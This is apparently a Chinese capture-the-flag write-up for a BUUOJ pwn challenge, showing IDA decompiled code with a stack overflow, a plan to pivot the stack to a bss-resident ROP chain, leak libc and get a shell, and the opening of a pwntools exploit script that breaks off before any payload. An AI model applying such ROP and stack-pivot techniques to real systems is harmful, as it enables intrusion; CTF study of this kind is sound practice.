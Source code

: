 [![](assets/1701612250-7cd18c05a115997df35454f1c98df3a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230725214703-bc59f65a-2af1-1.png)

**IDA 静态分析**

main()

```bash
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vul_function();
  puts("GoodBye!");
  return 0;
}
```

vul\_function()

```bash
ssize_t vul_function()
{
  size_t v0; // eax
  size_t v1; // eax
  char buf[24]; // [esp+0h] [ebp-18h] BYREF

  v0 = strlen(m1);
  write(1, m1, v0);
  read(0, &s, 0x200u);
  v1 = strlen(m2);
  write(1, m2, v1);
  return read(0, buf, 0x20u);
}
```

主要漏洞点在第二个 read()，其实操作和上一个题目差不多

就是在第一个 read() 写入我们构造的 ROP 链，然后第二个 read() 迁移到处于 bss 段的 s 地址，先泄露 libc，再 getshell

exp:

```bash
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='i386'

#p=process('./pwn')
p=remote("node4.buuoj.cn",27645)
elf = ELF('./pwn')
libc = ELF('./libc-2.23.so')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
```